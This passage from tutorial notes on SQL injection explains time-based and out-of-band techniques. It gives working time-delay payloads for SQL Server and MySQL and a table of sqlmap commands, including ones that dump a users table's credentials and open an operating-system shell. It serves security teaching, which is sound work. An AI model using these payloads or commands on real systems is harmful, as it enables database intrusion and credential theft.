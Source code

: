 #### 2\. Time-based SQLi

This is the final resort when Boolean-based SQLi is not possible. The attacker sends a query that instructs the database to wait for a specified amount of time (e.g., 10 seconds) *if* a certain condition is true.

  * **Example Payloads:**
      * **SQL Server:** `' WAITFOR DELAY '00:00:10'--`
      * **MySQL:** `' OR IF(1=1, SLEEP(10), 0)--`
      * If the website takes 10 seconds to load, the attacker knows the condition was TRUE.

### C. Out-of-band SQLi (The Advanced Attack)

This is a less common technique used when the server's response is not stable. It relies on the database server's ability to make network requests (like DNS or HTTP) to an external server that the attacker controls. The attacker can then exfiltrate data through these network channels.

-----

## 4\. The SQLmap Tool

**SQLmap** is a powerful, open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities. It can identify the database type, enumerate users, tables, and columns, and dump entire databases.

### Common SQLmap Commands

An ethical hacker uses these commands to test a target with permission.

| Command / Flag | Purpose | Example |
| :--- | :--- | :--- |
| `-u <URL>` | Specifies the target URL to test. | `sqlmap -u "http://test.com/index.php?id=1"` |
| `--dbs` | Enumerates (lists) all available databases. | `sqlmap -u ... --dbs` |
| `-D <db>` | Specifies a particular database to work with. | `sqlmap -u ... -D user_db --tables` |
| `--tables` | Enumerates all tables within a specified database. | `sqlmap -u ... -D user_db --tables` |
| `-T <table>` | Specifies a particular table to work with. | `sqlmap -u ... -T users --columns` |
| `--columns` | Enumerates all columns within a specified table. | `sqlmap -u ... -T users --columns` |
| `--dump` | Dumps the data from a table, column, or database. | `sqlmap -u ... -T users -C "user,pass" --dump` |
| `--current-user` | Retrieves the current database user. | `sqlmap -u ... --current-user` |
| `--current-db` | Retrieves the current database name. | `sqlmap -u ... --current-db` |
| `--hostname` | Retrieves the database server's hostname. | `sqlmap -u ... --hostname` |
| `--batch` | Never asks for user input; uses default behaviors. | `sqlmap -u ... --dbs --batch` |
| `--level=<1-5>` | Sets the level of tests to perform (1=default, 5=heavy). | `sqlmap -u ... --level=5 --risk=3` |
| `--risk=<1-3>` | Sets the risk of tests (1=default, 3=risky). | `sqlmap -u ... --level=5 --risk=3` |
| `--os-shell` | Attempts to gain an interactive operating system shell. | `sqlmap -u ... --os-shell` |
